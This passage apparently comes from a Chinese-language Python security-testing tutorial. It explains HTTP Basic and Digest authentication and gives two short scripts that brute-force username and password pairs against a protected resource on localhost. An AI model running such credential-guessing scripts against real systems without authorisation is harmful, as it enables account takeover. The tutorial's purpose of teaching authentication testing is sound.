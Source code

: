 我们可以使用此脚本来测试对受保护资源的访问，使用**基本身份验证。**在此示例中，我们应用了**暴力破解过程**来获取受保护资源上的用户和密码凭据。

您可以在`BasicAuthRequests.py`文件中找到以下代码：

```py
import base64
import requests
users=['administrator', 'admin']
passwords=['administrator','admin']
protectedResource = 'http://localhost/secured_path'
foundPass = False
for user in users:
    if foundPass:
        break
    for passwd in passwords:
        encoded = base64.encodestring(user+':'+passwd)
        response = requests.get(protectedResource, auth=(user,passwd))
        if response.status_code != 401:
            print('User Found!')
            print('User: %s, Pass: %s' %(user,passwd))
            foundPass=True
            break
```

# HTTP 摘要身份验证

HTTP 摘要是用于改进 HTTP 协议中基本身份验证过程的机制。通常使用 MD5 来加密用户信息、密钥和领域，尽管其他算法，如 SHA，也可以在其不同的变体中使用，从而提高安全性。它在 Apache Web 服务器中实现了`mod_auth_digest`模块和`htdigest`实用程序。

客户端必须遵循的过程以发送响应，从而获得对受保护资源的访问是：

+   `Hash1= MD5(“user:realm:password”)`

+   `Hash2 = MD5(“HTTP-Method-URI”)`

+   `response = MD5(Hash1:Nonce:Hash2)`

基于摘要的访问身份验证通过使用单向哈希加密算法（MD5）扩展基本访问身份验证，首先加密认证信息，然后添加唯一的连接值。

客户端浏览器在计算密码响应的哈希格式时使用该值。尽管密码通过使用加密哈希和唯一值的使用来防止重放攻击的威胁，但登录名以明文形式发送。

假设我们有一个受此类型身份验证保护的 URL，在 Python 中将如下所示：

```py
import requests
from requests.auth import HTTPDigestAuth
response = requests.get(protectedURL, auth=HTTPDigestAuth(user,passwd))
```

我们可以使用此脚本来测试对受保护资源的访问**摘要身份验证。**在此示例中，我们应用了**暴力破解过程**来获取受保护资源上的用户和密码凭据。该脚本类似于基本身份验证的先前脚本。主要区别在于我们发送用户名和密码的部分，这些用户名和密码是通过 protectedResource URL 发送的。

您可以在`DigestAuthRequests.py`文件中找到以下代码：

```py
import requests
from requests.auth import HTTPDigestAuth
users=['administrator', 'admin']
passwords=['administrator','admin']
protectedResource = 'http://localhost/secured_path'
foundPass = False
for user in users:
 if foundPass:
     break
 for passwd in passwords:
     res = requests.get(protectedResource)
     if res.status_code == 401:
         resDigest = requests.get(protectedResource, auth=HTTPDigestAuth(user, passwd))
         if resDigest.status_code == 200:
             print('User Found...')
```